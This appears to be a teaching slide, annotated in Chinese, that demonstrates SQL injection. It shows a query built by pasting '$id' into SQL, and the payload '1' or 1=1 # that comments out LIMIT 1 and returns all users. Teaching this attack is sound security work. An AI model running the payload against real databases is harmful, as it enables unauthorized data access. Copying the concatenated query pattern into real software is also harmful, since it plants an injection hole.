

DEMO:: SQL Injection
SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1

LIMIT 1可以用#註解繞過
SELECT first_name, last_name FROM users WHERE user_id =  '#' LIMIT 1

SELECT first_name, last_name FROM users WHERE user_id =  '1' or 1=1 #' LIMIT 1

sql injection
最終SQL語法就會成為
SELECT first_name, last_name FROM users WHERE user_id =  '1' or 1=1